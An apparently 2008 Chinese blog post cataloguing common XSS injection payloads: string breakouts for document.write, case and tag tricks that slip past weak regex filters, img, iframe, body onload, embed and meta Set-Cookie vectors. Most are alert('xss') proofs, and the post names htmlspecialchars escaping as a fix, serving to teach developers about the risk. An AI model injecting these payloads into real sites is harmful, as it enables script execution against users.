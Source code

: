 ```yaml
---
title: '常见的 XSS 注入攻击方式 Part.1'
date: '2008-10-30'
layout: post
categories:
    - 奇技淫巧

#type: draft
---
```


前端开发常见的安全问题就是会遭受  [XSS 注入攻击](http://en.wikipedia.org/wiki/Cross-site_scripting) ，这里列举常见的代码注入方式。


### Javascript 代码注入

Javascript 代码注入主要表现为直接引用未经校验的字符串、解析不安全的 JSON 数据（ [包括 JSONP](http://bob.pythonmac.org/archives/2005/12/05/remote-json-jsonp/) ）等。

很多时候会写这样的代码

    document.write('u name is' + name);

这就会形成一定的安全性问题（如果服务器端没有过滤的话），比如 name 为下面的数据，在没有经过过滤时

    ';alert('xss');//

    ";alert('xss');//

    '';!--"<xss>=&{()}

就会破坏原有代码结构，插入不期望的代码。


### HTML 标签注入

HTML 注入是较为常见的一种方式，主要的注入入口为不周全的正则过滤、内联样式（针对 Exploer），下面是常见的注入代码

逃过不周全的正则过滤，解决方案为使用 PHP 的 htmlspecialchars 以及 htmlentities 等类似函数转义。

    <sCrIpT src=xss.js></sCrIpT>

```
<script src=xss.js>
</script>
```

    <script/xss src="xss.js"></script>

    <script/SRC="xss.js"></script>

    <<script>alert("xss");//<</script>

```
<script>a=/xss/
alert(a.source)</script>
```

从图片标签中注入，在些论坛上比较常见

    <img src="javascript:alert('xss');">

    <img """><script>alert("xss")</script>">

    <img src="xss.php?param">

从连接标签上注入（虽然本人没有发现过案例，不过也不能轻视）

    <script a=">" SRC="xss.js"></script>

    <script =">" SRC="xss.js"></script>

    <script a=">" '' SRC="xss.js"></script>

其他容易注入的地方

    <body onload=alert('xss')>

    <iframe src="javascript:alert('xss');"></iframe>

    <embed src="xss.swf" AllowScriptAccess="always"></embed>

    <meta http-equiv="Set-Cookie" content="USERID=<script>alert('xss')</script>">

先摘记举例那么多，下期的内容包括「CSS 注入」、「其他注入方法」以及一般性解决方案，欢迎探讨和纠正。
